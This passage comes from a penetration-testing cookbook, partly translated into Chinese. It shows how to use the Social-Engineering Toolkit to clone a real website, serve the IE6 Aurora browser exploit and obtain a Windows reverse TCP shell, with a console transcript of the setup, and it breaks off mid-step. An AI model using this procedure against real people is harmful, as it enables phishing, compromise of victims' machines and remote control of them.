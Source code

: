 **社会工程工具包**（**集合**）顾名思义，专注于挖掘人类好奇心的本质。该集由 David Kennedy（ReL1K）撰写，在社区的大量帮助下，它包含了攻击。在此配方中，我们将了解恶意可执行文件是如何创建的，以及攻击者是如何等待受害者执行该文件的。我们还将研究攻击者如何通过诱使受害者访问恶意网站来欺骗用户获得反向外壳。

## 准备好了吗

对于这个配方，我们将使用 Windows 操作系统、Internet Explorer 6 和 Kali Linux 机器；`Setoolkit`默认安装为 Kali 的一部分。

## 怎么做。。。

1.  Start Social-Engineering Toolkit using the following command:

    ```
    Setoolkit

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](graphics/image_08_009.jpg)

    在本次活动中，我们将了解如何使用`Social-Engineering Attacks`托管一个虚假网站，并利用用户的 IE（如果易受攻击）获取其帐户的反向外壳。我们将使用`Social-Engineering Attacks`，这是选项 1：

    ![How to do it...](graphics/image_08_010.jpg)

2.  We will now select the website attack vector, that is, 2, which then looks as follows:

    ![How to do it...](graphics/image_08_011.jpg)

3.  Now we will select the `Metasploit Browser Exploit Method` option 2:

    ![How to do it...](graphics/image_08_012.jpg)

4.  After that, we will clone the site and fill up the necessary information:

    ```
          set:webattack>2
          [-] NAT/Port Forwarding can be used in the cases where your SET       machine is
          [-] not externally exposed and may be a different IP address       than your reverse listener.
          set> Are you using NAT/Port Forwarding [yes|no]: yes
          set:webattack> IP address to SET web server (this could be your        external IP or hostname):192.168.157.157
          set:webattack> Is your payload handler (metasploit) on a       different IP from your external NAT/Port FWD address [yes|no]:no
          [-] SET supports both HTTP and HTTPS
          [-] Example: http://www.thisisafakesite.com
          set:webattack> Enter the url to clone:http://security-geek.in

    ```

    相同的屏幕截图如下所示：

    ![How to do it...](graphics/image_08_013.jpg)

5.  We will select the `Internet explorer 6 vulnerability of Aurora memory corruption (2010-01-14)`, option number 37, and select the Metasploit **Windows Shell Reverse_TCP**, option 1, and specify any desired port, preferably above 1,000, as the ones below 1,000 are registered for operating systems. The output will be as shown in the following screenshot:
